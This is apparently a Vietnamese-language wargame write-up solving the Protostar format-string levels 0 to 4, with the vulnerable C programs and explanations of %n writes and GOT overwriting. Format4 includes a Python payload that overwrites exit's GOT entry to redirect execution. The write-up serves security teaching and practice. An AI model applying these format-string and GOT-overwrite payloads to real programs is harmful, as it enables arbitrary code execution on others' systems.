










# Format String
## Lý thuyết
### 1. Xâu định dạng
Xâu định dạng xác định kiểu hiển thị của các tham số truyền vào hàm `printf`, `sprintf`, `fprintf`, `vsprintf`,... Ký tự `%` đánh dấu sự bắt đầu của 1 yêu cầu định dạng. Một số ký tự định dạng bao gồm %, c, x, X, s, n, hn...

- **%**: in ra chính ký tự `%`
- **c**: in tham số như 1 ký tự
- **x**: in tham số như 1 số thập lục phân, sử dụng ký tự thường
- **X**: tương tự `x` nhưng sử dụng các ký tự hoa
- **s**: in ra chuỗi tại vị trí được chỉ tới bởi tham số
- **n**: viết vào vị trí được chỉ tới bởi tham số số lượng ký tự (là 1 số nguyên 4 byte) đã được in ra màn hình.

Xâu định dạng cũng được lưu trên stack cùng với các tham số:


Khi ta sử dụng các hàm thuộc họ `printf` mà không truyền tham số cụ thể, ví dụ `printf("%x")` thì chương trình sẽ lấy lần lượt các giá trị trong stack và in ra màn hình. Đặc biệt ta có thể lợi dụng xâu `%n` để sửa các giá trị trên ngăn nhớ và điều hướng chương trình (nếu sửa giá trị của return address).
### 2. Bảng GOT (global offset table)
Khi một chương trình sử dụng các hàm của 1 thư viện, chương trình sẽ phải thông báo cho bộ nạp biết hàm nó cần là hàm nào, tìm thấy ở thư viện nào. Bộ nạp nhận được thông tin sẽ nạp thư viện và và tìm địa chỉ của hàm sau đó truyền lại cho chương trình. Quá trình này được thực hiện khi hàm được nạp lần đầu và địa chỉ hàm sẽ được lưu lại để sử dụng cho các lần gọi sau. Bảng lưu các địa chỉ hàm này gọi là bảng địa chỉ toàn cục (GOT).

## Kết quả
### Format 0
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Dễ dàng nhận thấy hàm `sprintf` sẽ sao chép giá trị của xâu `string` vào `buffer` và không kiểm soát số lượng ký tự. Ta chỉ cần làm tràn biến `buffer` là xong.



### Format 1
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Mục tiêu là thay đổi biến `target`, vì vậy ta sẽ sử dụng xâu định dạng `%n` và công cụ `objdump` để lấy địa chỉ của biến `target`




Xâu `%n` sẽ được thay vào vị trí có địa chỉ của biến `target`, tuy nhiên việc đảm bảo cho cả 4 byte của địa chỉ đó xuất hiện cùng nhau không hề đơn giản. Lý do là bởi nếu ta truyền vào 1 xâu có độ dài không cố định theo `argv` thì sẽ không kiểm soát được địa chỉ xâu đó, do đó nếu không may (và thực sự là không có lúc nào có may cả:) thì địa chỉ xâu mình truyền vào sẽ là 1 giá trị không chia hết cho 4. Việc cố định độ dài xâu truyền vào sẽ làm cho địa chỉ xâu đó trên stack không đổi (trong trường hợp môi trường lý tưởng).

### Format 2
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
Đơn giản hơn format1 vì ở bài này xâu định dạng sẽ được nhập vào thay vì truyền theo tham số `argv`. Mặt khác ta phải kiểm soát số lượng ký tự được in ra để sửa biến `target` bằng đúng giá trị yêu cầu



### Format 3
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
Tương tự format2 nhưng lần này giá trị của biến `target` lại quá lớn, ta không thể ghi đè bằng cách thông thường được. Dùng `objdump -t format3` thấy được địa chỉ của `target`:



Biến `target` chiếm 4 byte bộ nhớ, do vậy ý tưởng sẽ là ghi đè lần lượt các giá trị `0x44`, `0x55`, `0x02`, `0x01` vào từng byte (lưu ý là cần phải ghi ngược lại vì protostar là little endian).



Ô nhớ đầu tiên có giá trị `0x44` (tức là 68), trong đó 3 địa chỉ (mình sẽ giải thích tại sao chỉ có 3 địa chỉ sau) đã có 12 byte do vậy cần 58 byte nữa. Tương tự ở ô nhớ tiếp theo giá trị là `0x55` (tức là 85) và đã có 68 byte rồi nên cần 17 byte nữa. Ô nhớ tiếp theo là `0x02`, tuy nhiên ta không thể giảm số byte về 2 được nên phải ghi đè bằng `0x102` (tức là 258). Vì sẽ chỉ lấy 8 bit nên giá trị của ô nhớ này vẫn là `0x02` và `0x01` sẽ được đẩy sang ô nhớ tiếp sau, may mắn là vừa đúng bằng giá trị ta đang cần. Vì vậy chỉ cần địa chỉ của 3 byte đầu tiên thay vì 4 byte ở trong xâu định dạng.

### Format 4
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```
Bài này ta vẫn thấy xuất hiện biến `target` nhưng mục tiêu có lẽ là thực thi hàm `hello()`, vì vậy việc sửa biến `target` không có ý nghĩa, thay vào đó ý tưởng đơn giản nhất là ghi đè return address địa chỉ của hàm `hello()`. Tuy nhiên để ý thấy hàm `vuln()` đã gọi câu lệnh `exit(1)`, tức là một đi không trở lại nên ý tưởng trên không còn khả thi nữa. Mình sẽ sử dụng bảng GOT như đã giới thiệu ở trên.



Ta thấy `exit` đã được lưu lại trong bảng GOT tại địa chỉ `0x08049724`, vì vậy bây giờ mình sẽ thử ghi đè giá trị tại địa chỉ này thành địa chỉ của hàm `hello()`



```py
import struct
buf = ""
buf += struct.pack("I", 0x08049724)
buf += struct.pack("I", 0x08049726)
buf += "%33964x%4$n%33616x%5$n"
print(buf)
```
Xâu định dạng mình đã sử dụng ý tưởng giống như format3, nhưng lần này chỉ cần ghi vào byte thứ nhất và byte thứ 3.


